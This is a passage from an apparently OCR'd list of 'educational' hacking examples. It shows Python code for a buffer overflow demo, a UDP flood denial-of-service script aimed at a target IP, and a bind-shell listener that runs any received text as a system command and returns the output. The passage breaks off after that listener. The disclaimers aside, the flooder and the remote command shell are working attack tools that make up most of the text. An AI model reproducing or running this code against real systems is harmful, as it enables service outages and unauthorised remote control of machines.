     **Description**: This code demonstrates a simple SQL injection simulation by manipulating a query string to bypass authentication. **Warning**: This is for educational purposes only. **Do not use this code to attack or compromise databases**. It’s meant to illustrate how SQL injection works for learning and ethical hacking practice.

24. **Educational Example - Buffer Overflow Simulation**:

    ```python
    >>> # For educational purposes only. Use responsibly.
    >>> import ctypes
    >>> 
    >>> def buffer_overflow():
    >>>     buf = ctypes.create_string_buffer(10)
    >>>     buf.value = b'A' * 20  # Overflow buffer with excessive data
    >>>     print(buf.value)
    >>> 
    >>> buffer_overflow()
    ```

    **Description**: This code demonstrates a buffer overflow by writing more data to a buffer than it can handle, potentially causing unexpected behavior. **Warning**: This is for educational purposes only. **Do not use this code to exploit vulnerabilities**. It’s meant to illustrate how buffer overflows work for learning and ethical hacking practice.

25. **Educational Example - Denial of Service (DoS) Simulation**:

    ```python
    >>> # For educational purposes only. Use responsibly.
    >>> import socket
    >>> 
    >>> def dos_attack(target_ip, target_port):
    >>>     sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    >>>     message = b'A' * 1024  # Large message to flood the target
    >>>     while True:
    >>>         sock.sendto(message, (target_ip, target_port))
    >>> 
    >>> dos_attack('target_ip', 80)  # Replace 'target_ip' with the target's IP address
    ```

    **Description**: This code demonstrates a simple denial of service (DoS) attack by flooding a target with a large number of messages. **Warning**: This is for educational purposes only. **Do not use this code to disrupt services**. It’s meant to illustrate how DoS attacks work for learning and ethical hacking practice.

26. **Educational Example - Remote Code Execution Simulation**:

    ```python
    >>> # For educational purposes only. Use responsibly.
    >>> import os
    >>> import socket
    >>> 
    >>> def remote_code_execution():
    >>>     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    >>>     s.bind(('0.0.0.0', 9999))
    >>>     s.listen(1)
    >>>     print("Listening for connections...")
    >>>     conn, addr = s.accept()
    >>>     print(f"Connection from {addr}")
    >>>     while True:
    >>>         data = conn.recv(1024).decode('utf-8')
    >>>         if not data:
    >>>             break
    >>>         output = os.popen(data).read()
    >>>         conn.send(output.encode('utf-8'))
    >>>     conn.close()
    >>> 
    >>> remote_code_execution()